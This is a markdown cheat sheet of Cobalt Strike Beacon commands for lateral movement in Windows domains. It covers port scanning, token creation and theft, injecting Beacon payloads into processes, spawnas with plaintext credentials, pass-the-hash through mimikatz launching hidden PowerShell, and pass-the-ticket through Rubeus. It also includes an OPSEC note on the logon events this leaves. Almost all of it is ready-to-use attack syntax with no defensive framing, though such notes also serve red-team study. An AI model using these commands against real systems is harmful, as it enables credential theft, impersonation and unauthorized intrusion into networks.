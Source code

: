 ## Lateral Movement

#### Portscan
```
portscan <IP OR RANGE> <PORTS>
```

### User impersonation
#### Make token - runas other user
```
make_token <DOMAIN>\<USER> <PASSWORD>
```

#### Rev2self
- Drops impersonation and will undo the make token
```
rev2self
```

#### Steal token
- If a user is running a process on the system, we can steal its process
```
steal_token <PID>
````

#### Inject payload into process
```
inject <PID> <ARCH> <BEACON>
```

#### Spawnas
- Will spawn a new process using the plaintext credentials of another user and inject a Beacon payload into it.
- Must be run from a folder the user has access to.
- This command does not require local admin privileges and will also usually fail if run from a SYSTEM Beacon.
```
make_token <DOMAIN>\<USER> <PASSWORD>
spawnas <DOMAIN>\<USER> <PASSWORD> <BEACON>
```

#### Pass the hash
```
pth <DOMAIN>\<USER> <NTLM HASH>
```

```
mimikatz sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<NTLM> /run:"powershell -w hidden"
steal_token <PID>
```

#### Pass the ticket
- OPSEC: By default, Rubeus will use a random username, domain and password with CreateProcessWithLogonW, which will appear in the associated 4624 logon event.  The "Suspicious Logon Events" saved search will show 4624's where the TargetOutboundDomainName is not an expected value.
```
execute-assembly Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:<DOMAIN> /username:<USER> /password:FakePass123

execute-assembly Rubeus.exe ptt /luid:<LUID FROM PREVIOUS COMMAND> /ticket:<BASE64 TICKET>

steal_token <PID OF FIRST COMMAND>
```
